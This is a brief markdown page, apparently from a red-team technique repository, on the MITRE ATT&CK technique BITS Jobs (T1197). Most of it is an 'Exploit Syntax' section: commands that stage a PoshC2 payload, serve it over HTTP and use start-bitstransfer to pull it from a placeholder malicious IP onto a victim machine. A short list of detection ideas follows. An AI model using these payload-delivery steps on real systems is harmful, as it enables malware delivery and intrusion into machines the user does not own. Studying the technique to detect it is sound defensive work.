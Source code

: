 # [BITS Jobs](https://attack.mitre.org/techniques/T1197/)

## Exploit Syntax: 

1. In Parrot terminal run the following commands
    ```sh
    mkdir /tmp/Lincoler
    cd /tmp/Lincoler
    cp /var/poshc2/<project name>/payloads/<payload name> Abrodolph.exe
    python3 -m http.server 12137
    ```

2.  In posh, run
    ```sh
    sharpps start-bitstransfer -source http://<malicious ip address>:12137/Abrodolph.exe -destination <victim save location>
    ```
**--Requires your device to be connected to the internet or have a default gateway configured--**
---
## Detection Method
* Monitor for new BITS tasks being created
* Monitor network activity generated by BITS over HTTP(S)
## Resources    